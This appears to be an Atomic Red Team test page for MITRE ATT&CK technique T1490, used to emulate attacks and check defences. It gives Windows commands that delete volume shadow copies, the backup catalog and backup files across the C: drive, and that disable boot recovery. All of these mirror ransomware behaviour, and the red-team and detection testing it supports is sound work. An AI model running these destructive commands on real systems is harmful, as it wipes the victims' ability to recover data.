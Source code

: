 # T1490 - Inhibit System Recovery

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1490)

<blockquote>Adversaries may delete or remove built-in operating system data and turn off services designed to aid in the recovery of a corrupted system to prevent recovery.(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017) Operating systems may contain features that can help fix corrupted systems, such as a backup catalog, volume shadow copies, and automatic repair features. Adversaries may disable or delete system recovery features to augment the effects of [Data Destruction](https://attack.mitre.org/techniques/T1485) and [Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486).(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017)

A number of native Windows utilities have been used by adversaries to disable or delete system recovery features:

* <code>vssadmin.exe</code> can be used to delete all volume shadow copies on a system - <code>vssadmin.exe delete
  shadows /all /quiet</code>
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) can be used to delete volume shadow
  copies - <code>wmic shadowcopy delete</code>
* <code>wbadmin.exe</code> can be used to delete the Windows Backup Catalog - <code>wbadmin.exe delete catalog
  -quiet</code>
* <code>bcdedit.exe</code> can be used to disable automatic Windows recovery features by modifying boot configuration
  data - <code>bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled
  no</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI](#atomic-test-2---windows---delete-volume-shadow-copies-via-wmi)

- [Atomic Test #3 - Windows - Delete Windows Backup Catalog](#atomic-test-3---windows---delete-windows-backup-catalog)

- [Atomic Test #4 - Windows - Disable Windows Recovery Console Repair](#atomic-test-4---windows---disable-windows-recovery-console-repair)

- [Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell](#atomic-test-5---windows---delete-volume-shadow-copies-via-wmi-with-powershell)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)

<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies

Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as
Olympic Destroyer. Upon
execution, if no shadow volumes exist the message "No items found that satisfy the query." will be displayed. If shadow
volumes are present, it
will delete them without printing output to the screen. This is because the /quiet parameter was passed which also
suppresses the y/n
confirmation prompt. Shadow copies can only be created on Windows server or Windows 8.

https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc788055(v=ws.11)

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
vssadmin.exe delete shadows /all /quiet
```

#### Dependencies:  Run with `powershell`!

##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.

##### Check Prereq Commands:

```powershell
if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) { exit 0 } else { exit 1 } 
```

##### Get Prereq Commands:

```powershell
vssadmin.exe create shadow /for=c:
```

<br/>
<br/>

## Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI

Deletes Windows Volume Shadow Copies via WMI. This technique is used by numerous ransomware families and APT malware
such as Olympic Destroyer.
Shadow copies can only be created on Windows server or Windows 8.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
wmic.exe shadowcopy delete
```

<br/>
<br/>

## Atomic Test #3 - Windows - Delete Windows Backup Catalog

Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic
Destroyer. Upon execution,
"The backup catalog has been successfully deleted." will be displayed in the PowerShell session.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
wbadmin.exe delete catalog -quiet
```

<br/>
<br/>

## Atomic Test #4 - Windows - Disable Windows Recovery Console Repair

Disables repair by the Windows Recovery Console on boot. This technique is used by numerous ransomware families and APT
malware such as Olympic Destroyer.
Upon execution, "The operation completed successfully." will be displayed in the powershell session.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```

#### Cleanup Commands:

```cmd
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures
bcdedit.exe /set {default} recoveryenabled yes
```

<br/>
<br/>

## Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell

Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject.
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject. Shadow copies can only be created on Windows server or Windows 8, so upon execution
there may be no output displayed.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```

<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files

Deletes backup files in a manner similar to Ryuk ransomware. Upon exection, many "access is denied" messages will appear
as the commands try
to delete files from around the system.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```

<br/>
